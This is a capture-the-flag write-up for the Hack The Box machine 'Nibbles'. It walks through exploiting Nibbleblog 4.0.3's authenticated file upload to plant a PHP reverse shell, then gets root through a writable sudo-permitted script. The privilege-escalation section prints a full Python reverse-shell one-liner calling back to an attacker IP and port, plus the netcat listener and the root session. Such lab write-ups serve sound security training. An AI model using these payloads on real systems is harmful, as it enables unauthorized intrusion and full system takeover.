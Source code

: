 ```yaml
---
layout: post
title:  "HTB: Nibbles"
date:   2021-03-07 21:00:00 +1100
category: hacking
---
```


## Nibbles
After Bashed is Traceback but I've done that before; next is Nibbles.

## Ports
SSH and HTTP only.

## HTTP
The frontpage just says Hello world! but in the page source there is a comment about /nibbleblog, so we go there. It's running a CMS called nibbleblog; searchsploit says there are two exploits; SQLi in version 3 and an arbitrary file upload in version 4.0.3. It's not immediately clear which we have.

Some enumeration reveals http://10.10.10.75/nibbleblog/README:

>====== Nibbleblog ======  
Version: v4.0.3  
Codename: Coffee  
Release date: 2014-04-01  

So we're after the arbitrary file upload; but it needs authentication. I try bruteforcing the login, but it has a protection mechanism whereby you are locked out after only a few attempts. I google for how to defeat it, but all of the results are Nibbles writeups! 

This [blog](https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/) talks about how to get around the bruteforce prevention without spoiling the rest of the box, but it also gives up the password. I feel a bit conflicted about this, but I use it and log in.

I also fork the repo with the script (Python) for future reference.

## Yeeting Metasploit?
The exploit from Searchsploit is a Metasploit module. Nah, let's see if we can do it manually. It looks fairly straightfoward. We use the GUI to upload a file (the Pentestmonkey PHP reverse shell) at http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image

This prints a bunch of warnings: e.g. 

>Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

But even so it does work. We visit the shell (it gets renamed to image.php) at http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php and we get our shell

## Privesc
We are *nibbler*. My shell is a bit dodgy and *sudo -l* won't work. However it works via linpeas for some reason, and we can run */home/nibbler/personal/stuff/monitor.sh* as root. Okey dokey. This file doesn't actually exist, but there is a zipfile called personal which we can unzip and it creates the path and file. We own monitor.sh so we can make it whatever we want. I try a few payloads before I get one that works:

{% highlight html %}
nibbler@Nibbles:/home/nibbler/personal/stuff$ rm monitor.sh
rm monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ printf '#!/usr/bin/python3\n' >> monitor.sh
<er/personal/stuff$ printf '#!/usr/bin/python3\n' >> monitor.sh              
nibbler@Nibbles:/home/nibbler/personal/stuff$ printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\n' >> monitor.sh
< os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\n' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ !33
!33
sudo -u root /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
{% endhighlight %}

In my listener:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/nibbles]
└─# nc -nvlp 1235                                                                                                                                                                                1 ⨯
listening on [any] 1235 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.75] 38506
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -lash
total 32K
4.0K drwx------  4 root root 4.0K Dec 15 05:09 .
4.0K drwxr-xr-x 23 root root 4.0K Dec 15 05:13 ..
   0 -rw-------  1 root root    0 Dec 29  2017 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwx------  2 root root 4.0K Dec 10  2017 .cache
4.0K drwxr-xr-x  2 root root 4.0K Dec 10  2017 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root 1.1K Dec 15 05:09 .viminfo
4.0K -r--------  1 root root   33 Mar  7 03:44 root.txt
{% endhighlight %}

So that was that but I can't help feel I missed the most important part of this challenge. Anyway; next cab off the rank is Optimum. I'll have a crack at that tomorrow.
